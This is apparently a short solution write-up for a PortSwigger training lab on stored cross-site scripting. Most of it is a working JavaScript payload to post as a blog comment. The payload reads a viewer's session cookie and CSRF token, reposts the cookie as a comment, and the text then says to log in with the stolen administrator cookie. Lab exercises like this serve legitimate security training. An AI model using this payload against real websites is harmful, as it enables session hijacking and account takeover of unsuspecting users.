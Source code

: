 ### Exploiting cross-site scripting to steal cookies


Solution to portswigger lab without using burpsuite collaborator.

Javascript code to post as a comment in order to obtain the cookies of the users that watch the comment blog (administrator). 

The script will post the user's session cookie as a comment.

Introduce your lab id in the url as well as the correct postId of the blog your are in. After, log in using the administrator cookie.


Code
```
<script>
window.onload = function () {
var data = "csrf=" + document.getElementsByName("csrf")[0].value + "&postId=3&comment=" + document.cookie + "&name=test&email=test@test&website"
fetch('https://your-lab-id.web-security-academy.net/post/comment', {
method: 'POST',
mode: 'no-cors',
body: (data)
});
};
</script>
```
